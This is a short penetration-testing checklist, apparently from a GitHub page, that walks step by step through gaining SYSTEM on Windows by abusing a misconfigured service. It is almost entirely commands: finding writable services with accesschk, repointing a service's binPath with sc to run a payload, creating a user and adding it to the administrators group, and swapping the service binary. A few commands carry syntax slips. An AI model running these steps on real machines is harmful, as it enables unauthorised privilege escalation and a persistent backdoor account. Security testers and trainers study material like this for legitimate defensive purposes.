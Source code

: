 # Penetration Testing Checklist

A complete Windows checklist to gain SYSTEM through a misconfigured service.

This guide is written in a methodical step-by-step process, it is recommended not skipping steps.&nbsp;
&nbsp;

*Query to list potentially vulnerable services*
```Windows
accesschk.exe -uwcqv *
accesschk64.exe -uqcqv *
```

*Stop the desired service*
```Windows
sc stop {service-name}
```

*Change the service binary path with a created payload*
```Windows
sc config {service-name} binPath= "E:\Service.exe"
```

*Create a user*
```Windows
sc config {service-name} binPath= net user /add {username} {password}"
sc start {service-name}
sc stop {service-name}
sc config {service-name} binPath = net localgroup administrators {username} /add
sc start {service-name}
```

*Replace the service binary with a created payload*
```Windows
icacls C:\{binary-path}
>> Copy and paste new binary into the above directory
```

*Start the desired service*
```Windows
sc start {service-name}
```

